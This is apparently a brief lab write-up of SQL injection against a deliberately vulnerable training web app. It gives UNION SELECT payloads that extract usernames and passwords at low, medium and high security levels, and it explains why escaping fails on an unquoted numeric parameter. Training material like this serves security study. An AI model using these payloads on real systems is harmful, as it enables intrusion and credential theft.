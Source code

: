 ### Security level: LOW
* ' UNION SELECT user,password FROM users#
* Must escape from WHERE user_id = '$id';"
* first name and surname are the username and password respectively
 just like the query

### Security level: MEDIUM:

* 1 or 1=1 UNION SELECT user,password FROM users#
* This line in the source code will filter anything that is a string in id: $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
* Must escape from WHERE user_id = $id; which is easier since $id is not in strings this time.

### Security level: HIGH:

* ' UNION SELECT user,password FROM users#
